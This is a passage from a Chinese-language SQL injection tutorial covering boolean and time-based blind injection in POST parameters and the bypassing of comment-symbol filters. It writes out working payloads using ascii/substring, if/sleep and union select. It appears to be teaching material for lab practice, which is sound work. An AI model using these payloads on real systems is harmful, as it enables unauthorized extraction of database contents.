 ```sql
passwd=admin&submit=Submit&uname=admin' or 1=2#
```

使用ascii函数进行post盲注和上面的get差不多。

- 继续使用ascii去测试当前的数据库的第一个字母的长度，测试到115是执行成功的，所以可以挨个进行测试。

```sql
passwd=admin&submit=Submit&uname=admin' or ascii(substring((select database()),1,1))=115#
```

 

> 第二种是时间盲注

使用if函数配合ascii函数实现的时间盲注。

```sql
passwd=admin&submit=Submit&uname=admin' or if(ascii(substring((select database()),1,1))>=115,sleep(0),sleep(2))#
```



## 六、SQL注入绕过

### 6.1 注释符号过滤

在思考后端怎么去写一条sql查询语句的时候，比如根据当前的id 查询：

- 在如下的查询语句中，其实`$id`被单引号包裹起来的，怎么去写注入都不行，因为是注释掉了，所以这里需要绕过这种注释符号

```sql
sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"
```

常用的注释符号

- `--`
- `#`
- `%23`
- `--+`

有些网站源代码会直接替换掉注释符号：

![image-20240507162425151](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507162425151.png?imageSlim)

```sql
id=-1' union select 1,(select database()),3 or '1'='1
```

如下是数字型和字符型的绕过：

![image-20240507162818338](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507162818338.png?imageSlim)



### 6.2 and和or绕过

and为同时满足两个条件。例如测试字符型/数字型时用到and1=1和and1=2语句。or为满足其中一个条件即可。例如报错注入时会用到or语句。
